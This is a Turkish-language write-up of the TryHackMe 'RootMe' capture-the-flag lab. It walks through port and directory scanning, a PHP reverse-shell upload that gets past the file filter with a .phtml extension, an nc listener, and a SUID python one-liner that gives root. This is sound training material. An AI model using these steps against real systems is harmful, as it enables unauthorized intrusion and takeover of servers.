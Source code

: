 # RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

`nmap -sC -sV <İP> -Pn`

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 03:14 EDT
Nmap scan report for 10.10.214.100
Host is up (0.62s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


`gobuster dir -u http://10.10.214.100 -w /usr/share/dirb/wordlists/common.txt`

```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```



##### Bize Verilen çıktıyı inceliyoruz:
--------
Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
```
/css dizininde home dizini ve /panel dizinin css kodları var.
/js dizininde bir js kodu var.
/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.
/uploads dizini yüklenen dosyaların bulunduğu dizin
```
##### Php reverse shell indirmek ve düzenlemek:
----
```
~Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell/) indirebilirsiniz.
Php reverse shelli açıp tun0 ipimizi ve dinleycek portumuzu yazıyoruz.
```
##### php reverse shelli /panel adresine yüklemek:
--------
```
Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`
```
##### Shelli almaya calışıyoruz:
-----
```
/uploads dizinine yuklenen dosyaların gittigini biliyorduk.
Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.
nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.
/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz
Ve Bağlantı Geliyor
```
##### User flagı buluyoruz:
------
`Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:`

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltmek:
---
```
find / -user root -perm /4000 2>/dev/null
```
`komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.`
`/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.`

[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:
```
-c 'import os; os.setuid(0); os.system("/bin/sh")'
```
`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

id yazarak root olduğumuzu görüyoruz:
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







